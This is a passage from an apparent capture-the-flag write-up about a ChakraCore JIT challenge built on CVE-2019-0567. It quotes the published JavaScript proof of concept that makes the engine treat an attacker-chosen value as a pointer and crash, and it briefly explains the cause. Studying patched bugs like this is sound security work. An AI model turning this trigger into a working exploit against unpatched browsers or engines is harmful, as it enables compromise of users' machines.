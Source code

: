 Searching for Chakra InitProto on google we can find several CVE.
One of them is CVE-2019-0567 reported by lokihardt from Google Security who is also the author of this PoC

```javascript

PoC for InitProto:

function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, 0x1234); // <-- This value is used as a pointer

    print(o.a);
}

main();
```

If you feed the PoC into the challenge binary you'll get a SegFault before the print function terminates when libChakraCore.so tries to access [rax] with rax = 0x100...1234

(the 0x1 is used to differentiate numbers from pointers)

lokihardt explains that if we set `proto` as the prototype of `tmp`, `proto`'s layout in memory changes.

The jit compiler didn't take this side effect into account at the time.

The challenge is basically a revert of the fixes that Microsoft applied.

## Useful Reading

So to understand this issue a little bit better I read some general ChakraCore exploitation material such as

- [Bruno Keith Presentation on the subject](https://github.com/bkth/Attacking-Edge-Through-the-JavaScript-Compiler)

And also some specific analysis of this bug and two very similar bugs also discovered by lokihardt (basically corresponding to the other 3 cases that were not commented out)
